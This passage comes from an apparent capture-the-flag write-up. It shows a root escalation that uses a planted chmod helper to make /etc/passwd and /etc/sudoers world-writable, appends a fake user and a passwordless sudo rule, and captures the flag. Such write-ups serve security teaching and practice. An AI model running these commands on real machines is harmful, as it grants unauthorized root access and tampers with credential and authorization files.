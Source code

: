 This output gave us the idea to try and `sudo` to elevate our privileges, but we were met with the following output:

```
$ sudo
sudo: you do not exist in the passwd database
```

With our `chmod` backdoor in place, we finally had a plan.

First, we needed to add our user to the `/etc/passwd` file. To do this, we decided we would name our new user to 'sudo', made `/etc/passwd` writeable to everyone, added our user, and fixed the permissions on `/etc/passwd`:

```bash
$ /tmp/connect /etc/passwd 511 # 777 octal
$ echo "sudo:x:1000:1000:sudo:/home:/bin/sh" >> /etc/passwd
$ /tmp/connect /etc/passwd 420 # 644 octal
```

Now, when we run the `sudo` command by itself, no error is given and we get the usage output. 

After executing `sudo /bin/sh`, we were given a password prompt. 

No worries though, since we can change permissions of any file on the filesystem, we just need to add a line in the `/etc/sudoers` file to allow anyone to execute `sudo` commands without a password:

```bash
$ /tmp/connect /etc/sudoers 511 # 777 octal
$ echo "%sudo ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
$ /tmp/connect /etc/sudoers 288 # 440 octal
```

After running `sudo /bin/sh` now, we bypass the password prompt to get a root shell, and as a result, the flag:

![flag](flag.png)

Flag: `zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}`